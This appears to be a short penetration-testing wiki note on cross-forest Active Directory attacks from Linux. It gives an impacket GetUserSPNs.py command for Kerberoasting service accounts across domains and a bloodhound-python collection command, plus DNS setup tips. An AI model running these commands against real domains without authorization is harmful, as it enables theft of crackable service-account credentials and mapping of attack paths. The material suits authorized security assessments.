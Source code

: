 Cross forest attacks on Linux:
```shell
# Kerberoasting
# Enumerating users, running with flag -request gives us a TGS ticket
GetUserSPNs.py -target-domain <second domain> <domain>/<user>

# Finding foreign group membership
# Sometimes we'll need to change /etc/resolv.conf if the assessment uses custom DHCP using an internal DNS, simply add the lines:
# domain <first domain>
# nameserver <DC IP>
# Comment out any nameservers above
bloodhound-python -d <first domain name> -dc <dc1 name> -c All -u <user> -p <pass>
# We can now search for users with foreign domain group membership in analysis
```

---
Navigation: [[Pentesting]]